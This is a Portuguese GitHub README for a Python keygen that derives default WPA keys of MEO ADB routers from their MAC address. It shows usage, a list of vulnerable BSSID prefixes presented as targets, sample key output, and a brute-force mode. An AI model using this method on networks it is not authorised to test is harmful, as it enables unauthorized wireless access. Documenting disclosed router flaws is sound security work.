 Vulnerabilidades nos Routers ADB Italia da MEO. 
==

+ Este algoritmo permite gerar as chaves de encriptação WPA pré-definidas nos Routers da MEO com o SSID "ADSLPT-ABXXXXX".

Referencias
----

* O autor do codigo é [Eduardo Novella](https://twitter.com/enovella_) ([repositório original](https://bitbucket.org/dudux/adbpirelli))  que encontrou a vulnerabilidade nos routers ADB utilizado na Argentina pela operadora Arnet. O codigo neste repositorio encontra-se modificado de modo a funcionar nos routers da MEO com o SSID "ADSLPT-ABXXXXX". Eu não sou o seu autor!

Aviso
----
Não me responsabilizo por qualquer problema que o uso indevido deste codigo, te possa causar seja de que forma for. 
Este codigo serve apenas para testar a segurança da tua rede, pelo que se usares este codigo noutra rede que não seja
a tua não serei responsavel!!

Licence
----
GPLv3
http://gplv3.fsf.org/

Mais info

+ http://ednolo.alumnos.upv.es/?p=1883

Utilização
----

O codigo é escrito em Python

	$ python MEO.py -v
	MEO.py 1.5 [2015-07-20] ----> https://github.com/AndrewGomes/ADSLPT-WPA

	$ python MEO.py 
	usage: MEO.py [-h] [-b [BSSID]] [-v] [-l | -a]

	>>> Keygen para as redes WiFi da MEO com o SSID ADSLPT-ABXXXXX Não me
	responsabilizo por qualquer problema que o uso indevido deste codigo, te possa
	causar seja de que forma for. Este codigo serve apenas para testar a
	segurança da tua rede, pelo que se usares este codigo noutra rede que não
	seja a tua não serei responsavel!!


	optional arguments:
	  -h, --help            show this help message and exit
	  -v, --versão         show program's version number and exit
	  -l, --list            Mostrar vulnerabilidades
	  -a, --allkeys         Bruteforce

	required:
	  -b [BSSID], --bssid [BSSID]
	                        Endereço MAC do Router

	(+) Ajuda: python MEO.py -b 11:22:33:44:55:66


	$ python MEO.py -l
	[+] Possiveis alvos:
		 bssid: 00:08:27:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:13:C8:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:17:C2:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:19:3E:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:1C:A2:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:1D:8B:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:22:33:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 00:8C:54:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 30:39:F2:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 74:88:8B:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: 84:26:15:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: A4:52:6F:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: A4:5D:A1:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: D0:D4:12:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: D4:D1:84:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: DC:0B:1A:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX
		 bssid: F0:84:2F:XX:XX:XX 	 SSID: ADSLPT-ABXXXXX


	$ python MEO.py -b 11:22:33:44:55:66
	[+] MAC     : 11:22:33:44:55:66
	[+] WPA key : 057mjygg  	SSID: ADSLPT-ABXXXXX

	$ python MEO.py -b 11:22:33:44:55:66 -a
	[+] MAC     : 11:22:33:44:55:66

	wfti5odq8c

	[+] Chaves possiveis para o SSID: ADSLPT-ABXXXXX
	3c1nrhqy  
	tugh1hcf  
	057mjygg  
	hj0wl2c2  
	9yw6um3t  
	ituqajo8  
	wfti5odq 